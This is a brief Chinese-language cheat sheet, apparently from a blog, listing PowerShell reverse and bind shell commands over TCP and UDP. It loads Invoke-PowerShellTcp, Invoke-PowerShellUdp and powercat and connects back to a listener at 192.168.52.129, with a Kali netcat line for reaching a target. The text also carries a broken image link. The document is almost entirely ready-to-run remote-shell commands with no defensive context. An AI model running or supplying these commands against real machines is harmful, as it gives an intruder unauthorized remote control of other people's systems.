 主要介绍几种常用的, http/dns/imcp这些大家百度  不太想说太复杂了。。。。

`TCP Reverse`

    PS F:\Shells> . .\Invoke-PowerShellTcp.ps1
    PS F:\Shells> Invoke-PowerShellTcp -Reverse -IPAddress 192.168.52.129 -Port 4444
`TCP Bind`

        PS F:\Shells> . .\Invoke-PowerShellTcp.ps1
        PS F:\Shells> Invoke-PowerShellTcp -Bind -Port 8888
        PS F:\Shells> . .\powercat.ps1
        PS F:\Shells> powercat -c 192.168.52.1 -v -p 8888
`UDP Reverse`
        
        PS F:\Shells> . .\Invoke-PowerShellUdp.ps1
        PS F:\Shells> Invoke-PowerShellUdp -Reverse -IPAddress 192.168.52.129 -Port 53
`UDP Bind`

        PS F:\Shells> . .\Invoke-PowerShellUdp.ps1
        PS F:\Shells> Invoke-PowerShellUdp -Bind -Port 7777
        
        root@kali:~# nc -vtu 目标IP 7777
        
